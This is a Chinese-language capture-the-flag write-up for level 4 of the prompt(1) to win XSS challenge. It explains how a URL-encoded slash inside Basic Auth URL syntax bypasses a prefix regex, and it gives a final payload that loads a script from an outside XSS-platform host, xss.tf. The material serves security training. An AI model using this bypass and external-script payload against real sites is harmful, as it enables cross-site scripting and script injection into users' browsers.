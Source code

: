 ## [[prompt(1) to win](http://prompt.ml)] [[Level 4 - Basic Auth](http://prompt.ml/4)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3635/)]

------

## 题目

```javascript
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}
```

------------

## 解题报告

### 题目分析

这题要要先满足正则条件，才会把我们的输入放到 `<script>` 标签中执行。

换言之若注入成功，得到的 javascript 代码是这样的 `<script src=input />`

问题是若要成功注入，则 input 必须含有这三个固定前缀中的一个：

- `//prompt.ml/`
- `https://prompt.ml/`
- `http://prompt.ml/`

看起来好像无从下手，但实际上这里可以利用 HTTP 的 Basic Auth 认证语法去绕过。


------------

### Basic Auth 语法

当一个网站需要使用 Basic Auth 认证登陆时，若直接访问这个网址，会弹出类似下面这样的要求输入账密的对话框：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/01.png)

Basic Auth 认证方式也允许在访问网站 `http://host `时，直接在 URL 中加上账密，格式为：

`http://username:password@host`

这种用法其实现在也很普遍的，例如 git clone url 就可以这样用。

> 若一个网址不需要 Basic Auth 认证，同样也可以使用这种方式访问，只是输入的账密会被无视而已。

------------

### 绕过正则

回到这题，我们可以把这个固定前缀 `prompt.ml/` 构造成 Basic Auth 的 `username` 部分。

但是 `username` 不允许出现 `/` 符号，可以对其进行 URL 编码，即 `%2f` 。

注意到题目的代码中会对 `input` 做 `decodeURIComponent(input)` 处理后再进行正则校验，因此即使 `/` 符号被 URL 编码也可以通过正则校验。


------------

### 利用 XSS 平台

至此，我们可以先把 input 构造成这样：`http://prompt.ml%2f:pwd@` （密码部分随便即可）

我们看到此时题目的输出为：`<script src="http://prompt.ml%2f:pwd@"></script>`

由于我们构造的 Basic Auth 是无效的，所以这个输出等价于：`<script src="http://"></script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/02.png)

这里我们可以利用 XSS 平台构造一个站点执行 `prompt(1)` ，然后把这个站点地址放到 `<script>` 标签即可。


XSS 平台推荐使用 [http://xss.tf](http://xss.tf) ，新建一个项目，自定义代码为 `prompt(1)` ，得到项目地址： `http://xss.tf/RVO` （注意每个人的项目地址都是不同的）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/03.png)

利用 XXS 平台的项目地址，构造最终的 payload 为：`http://prompt.ml%2f:pwd@xss.tf/RVO`

> 注：
<br/>　　若要追求最短 payload ，密码部分 `pwd` 是可以不要的，但是 `:` 和 `@` 必须保留。
<br/>　　且根据 [相对协议地址](http://blog.httpwatch.com/2010/02/10/using-protocol-relative-urls-to-switch-between-http-and-https/) 原理，`http:` 也是可以不要的。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/04.png)


------------

### 一个 BUG

没错，这题是有 BUG 的，前面构造的这个 payload ，在 Chrome 、Edge、360 浏览器都是无法完成挑战的。

打开浏览器开发者工具的 Console ，发现 XSS 请求被 block 掉了。因为 XSS 请求发不出去，导致无法完成挑战。

最终**只有 Firefox 浏览器可以通过**。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/05.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
